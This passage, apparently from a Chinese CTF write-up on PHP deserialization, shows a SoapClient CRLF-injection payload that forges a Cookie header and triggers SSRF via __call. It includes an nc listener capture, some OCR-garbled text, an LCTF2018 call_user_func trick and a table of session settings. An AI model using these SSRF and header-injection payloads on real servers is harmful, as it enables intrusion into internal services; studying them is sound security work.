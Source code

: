 ```php
<?php
$target = "http://localhost:2333";
$options = array(
    "location" => $target,
    "user_agent" => "mochazz\r\nCookie: PHPSESSID=123123\r\n",
    "uri" => "demo"
);
$attack = new SoapClient(null,$options);
$payload = serialize($attack);
unserialize($payload)->ff(); // 调用一个不存在的ff方法，会触发__call方法，发出HTTP请求
?>
```
得到如下

```http
→/home nc - lvp 2333
listening on [any] 2333
connect to [127.0.0.1] from localhost [127.0.0.1] 42022
POST / HTTP/1.1
Host: localhost :2333
Connection: Keep-Alive
User -Agent: mochazz
Cookie: PHPSESSID= 123123    

Content-Type: text/xml; charset=utf-8
SOAPAction: "demo#a"
Content-Length: 365

<?xml version="1.0" encoding="UTF-8"?> 
<S0AP- ENV:Envelope xmlns: S0AP- ENV= "http:/ /schemas . xmlsoap . org/ soap/envelope/" xmlns:ns1="demo" xmIns :xsd="http:/ /www .w3.org/
2001/XMLSchema" xmIns : SOAP -ENC="http://schemas .xmlsoap .or g/soap/ encoding/" SOAP- ENV:encodingStyle="http://schemas .xmlsoap.og/ soap/ encoding/"><S0AP - ENV : Body><ns1 :a/></S0AP - ENV: Body></S0AP ENV: Envelope>
```



 **三. call_user_func** 

 **call_user_func函数中的参数可以是一个数组，数组中第一个元素为类名，第二个元素为类方法。**



先传入extract()，将$b覆盖成回调函数，这样题目中的 **call_user_func($b,$a)** 就可以变成 **call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’))** ，即调用 **SoapClient** 类不存在的 **welcome_to_the_lctf2018** 方法，从而触发 **__call** 方法发起 **soap** 请求进行 **SSRF** 。



四. PHPsession 反序列化

| Directive                       | 含义                                               |
| ------------------------------- | -------------------------------------------------- |
| session.save_handler            | session保存形式。默认为files                       |
| session.save_path               | session保存路径。                                  |
| session.serialize_handler       | session序列化存储所用处理器。默认为php。           |
| session.upload_progress.cleanup | 一旦读取了所有POST数据，立即清除进度信息。默认开启 |
| session.upload_progress.enabled | 将上传文件的进度信息存在session中。默认开启。      |
